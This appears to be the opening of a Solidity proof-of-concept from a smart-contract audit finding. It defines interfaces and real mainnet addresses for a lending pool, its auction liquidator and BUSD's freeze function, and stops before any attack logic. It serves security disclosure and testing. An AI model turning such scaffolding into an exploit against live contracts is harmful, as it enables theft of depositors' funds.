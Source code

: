 ## Proof of Concept
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
import "../src/interfaces/interface.sol";

interface IPoolFactory {
    function create(address poolImpl, bytes calldata params) external returns (address);

    function createProxied(address poolImpl, bytes calldata params) external returns (address);

    function owner() external view returns (address);
    
    function addPoolImplementation(address impl) external;
}

interface IPool {
	function deposit(uint128 tick, uint256 amount, uint256 minShares) external returns (uint256 shares);

	function borrow(
        uint256 principal,
        uint64 duration,
        address collateralToken,
        uint256 collateralTokenId,
        uint256 maxRepayment,
        uint128[] calldata ticks,
        bytes calldata options
    ) external returns (uint256);

	function liquidate(bytes calldata encodedLoanReceipt) external;

    function repay(bytes calldata encodedLoanReceipt) external returns (uint256);

    function redeem(uint128 tick, uint256 shares) external;

    function withdraw(uint128 tick) external returns (uint256, uint256);
}

interface IEnglishAuctionCollateralLiquidator {
	function bid(address collateralToken, uint256 collateralTokenId, uint256 amount) external;

    function claim(
        address collateralToken,
        uint256 collateralTokenId,
        bytes calldata liquidationContext
    ) external;
}
interface IBUSD is IERC20 {
    function assetProtectionRole() external returns (address);
    function freeze(address _addr) external;
}

IPoolFactory	constant factory = IPoolFactory(0x1c91c822F6C5e117A2abe2B33B0E64b850e67095);
address			constant poolImpl = 0x200927A3FDf2A1F67749385230dc7769e00308aA;
IEnglishAuctionCollateralLiquidator constant liquidator = IEnglishAuctionCollateralLiquidator(0xE0194F47040E2424b8a65cB5F7112a5DBE1F93Bf);
IBUSD  constant busd = IBUSD(0x4Fabb145d64652a948d72533023f6E7A623C7C53);
address constant depositor =  0x57D1974a8CA59146D91Dd8C5172110e5a390C048;
address constant bidder =  depositor;
address constant bidder2 =  0x12ED7f6ed0491678764c2b222A58452926E44DB6;
```
